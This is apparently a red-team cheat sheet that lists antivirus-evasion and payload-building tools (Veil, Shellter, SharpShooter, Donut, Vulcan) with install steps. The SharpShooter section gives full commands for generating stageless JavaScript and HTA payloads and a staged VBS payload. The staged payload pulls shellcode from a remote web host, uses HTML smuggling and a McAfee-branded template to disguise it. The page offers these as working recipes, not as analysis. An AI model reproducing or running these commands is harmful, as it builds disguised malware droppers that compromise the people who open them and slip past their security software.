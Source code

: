 ## Veil Framework:

Install on Kali: 
- apt install veil
- /usr/share/veil/config/setup.sh --force --silent

Reference: https://github.com/Veil-Framework/Veil

## Shellter

Source: https://www.shellterproject.com/download/

- apt install shellter


## Sharpshooter

Javascript Payload Stageless: 
- SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

Stageless HTA Payload: 

- SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

Staged VBS:

- SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

Reference: https://github.com/mdsecactivebreach/SharpShooter

## Donut: 

Source: https://github.com/TheWover/donut

## Vulcan

Source: https://github.com/praetorian-code/vulcan


